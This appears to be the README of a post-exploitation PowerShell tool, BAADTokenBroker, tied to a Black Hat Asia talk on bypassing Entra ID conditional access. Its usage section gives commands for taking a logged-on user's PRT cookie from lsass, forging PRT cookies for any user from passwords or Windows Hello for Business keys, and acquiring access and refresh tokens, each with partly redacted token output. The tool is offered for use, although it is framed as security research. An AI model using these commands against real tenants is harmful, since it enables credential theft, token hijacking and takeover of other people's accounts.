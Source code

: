 # BAADTokenBroker

BAADTokenBroker is a post-exploitation tool designed to leverage device-stored keys (Device key, Transport key etc..) to authenticate to Microsoft Entra ID.

https://www.blackhat.com/asia-24/briefings/schedule/index.html#bypassing-entra-id-conditional-access-like-apt-a-deep-dive-into-device-authentication-mechanisms-for-building-your-own-prt-cookie-37344

Note that this is a proof of concept tool. The tool is provided as is, without warranty of any kind.

## Usage

Import BAADTokenBroker in your target machine.

```
PS C:\ > import-module .\BAADTokenBroker.ps1
```

Then, execute whichever commands satisfy your needs.

- Request-PRTCookie: Request PRT Cookie of logged on user directly talking to lsass
- Create-PRTCookie: Create PRT Cookie of any user with their credentials or Windows Hello for Business (WHfB) keys
- Acquire-Token: Acquire access tokens and refresh tokens of any user with their credentials or WHfB keys

### Request-PRTCookie

Requests PRT Cookie of a logged-on user through LsaCallAuthenticationPackage

```
PS C:\> Request-PRTCookie
eyJhbGciOiJIUzI1NiIsICJrZGZfdmVyIjoyLCAiY3R4IjoiYTl0TVU4eitBbXluVWc1eHZZUkQrQSthaXNpQXNyclMifQ.eyJyZWZyZXNoX3Rva2VuIjoiMC5BVDBBN21SUVppwU25SWUIxU1ZqLUhnZDhBZ0RzX3dVQTlQOVp(redacted)llbnRfcGxhdGZvcm0iOiJ3aW5kb3dzIiwgInJlcXVFdJZmd6UTF5c3Zub2J4TWZycXFZclJ3bnFCSWdBQSJ9.okbIEJUopSjQ5ZKYvFd9aK5qCatVfk0oNNLD_L4NEQg
```

### Create-PRTCookie

Authenticates to Microsoft Entra ID and returns any user's PRT Cookie with their credentials

```
PS C:\>  Create-PRTCookie -Username employee01@*******.onmicrosoft.com -Password *********
eyJhbGciOiJIUzI1NiIsImtkZl92ZXIiOjIsImN0eCI6InY0algrcG1SbWlSQ3p5UFZnTDgxdDlLREJwbU5OZEpaIn0.ew0KICAgICJ4X2NsaWVudF9wbGF0Zm9ybSI6ICAid2luZG9W4iOiAgIjAuQVQwQTdtUlFaRzZiMjBPZFJ2NkJwb(redacted)GQ4N1lGU2hRcEJJa1BEMjVxTmZHYjRXa2RTVGJ2T1NkZ2doQ29vTlQlFEMF82SHZNOXZqdTFDaW9TZW9mLUpGVV9DYjZWcDlXN3pobmVMSHFSeFotb3dIVmNDQVg2OFMxNXNtZVl3OVYySDZIRFlzSllMVkNlN0g4YV85TVlCRGRFWWdBQSINCn0.DVMCeNGyTYTjsEMbHJtjmckkRYkb-VZ0GLceQYOvoIA
```

If you have access to WHfB keys configured user, you can also generate PRT Cookie of the user with their WHfB keys.

```
PS C:\>  Create-PRTCookie -Username employee01@*******.onmicrosoft.com -Whfb $True
eyJhbGciOiJIUzI1NiIsImtkZl92ZXIiOjIsImN0eCI6IkhOcmlXRlRBV1lsVFNDK3Z0T1FqcWcwclFBQnNOT083In0.ew0KIZG93cyIsDQogICAgIndpbl92ZXIiOiAgIjEwLjAuRLkFnQUJBQUVBQUFEbmZvbGhKcFNuUllCMVNWai1IZ2Q4QWdEc193VUE5UF9tQlJBVXNLTFhtbTdFRTV4NUplWlFKVlpEdD(redacted)zRzX0otWTI0ZmYtTEo1dS0wVXVQN2tQSjE5MW44QnFRR0l0RDBneXRFa285S2YwajU3bFRmcFJaU3lLYkRZZEZFaGs4aVFJNnBwaTV5ZFpoclUzSXFkUl9tYlpucW1NZ0FBIg0KfQ.BOlt7yiMYM47L6Z3awVH6zgW_B4xH-Ys8iv8HmY3XqM
```

### Acquire-Token

Authenticates to Microsoft Entra ID and returns access tokens and refresh tokens with supplied credentials or WHfB keys

```
PS C:\> $response = Acquire-Token -Username employee01@*******.onmicrosoft.com -Password ********* -Resource f2d19332-a09d-48c8-a53b-c49ae5502dfc -Clientid 29d9ed98-a469-4536-ade2-f981bc1d605e
PS C:\> $response.access_token
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsIng1dCI6InEtMjNmYWxldlpoaEQzaG05Q1Fia1A1TVF5VSIsImtpZCI6InEtMjNmYWxldlpoaEQzaG05Q1Fia1A1TVF5VSJ9.eyJhdWDlQzZGItOWQ0Ni1mZTgxYTY1Y2ZkZWEvIiwiaWF0Ij4LCJuYmYiOjE3MTE3MDk3MjgsImV4cCI6MTcxMTcxNDYyNSwiYWNyIjoiMiIsImFpbyI6IkFiUUFTLzhXQUFBQXN5K1BjUUZZZnpuK2tldUxEaXhyQ2h6TzB0Tm(redacted)pWZDBlZWY1cmp1VWdQQUEiLCJ2ZXIiOiIxLjAifQ.DaByirnDkLbsHLBVV2neoSVDjAdIXOcwVVlJIr6S-uBWzqjel3lvwPRZM8lvtoyLRqg3A4JoQt7nZc8TCB1L6s69Src33DC9woArh8PwcUaOguGnMJANV5s-qhfg8ot9yNkf9W24Bxg4LzlUnXsmZS5dfNOuhVkbfz2MJ9nm3b_qtNYK1fZpuuOLR49DByFWvGRw
```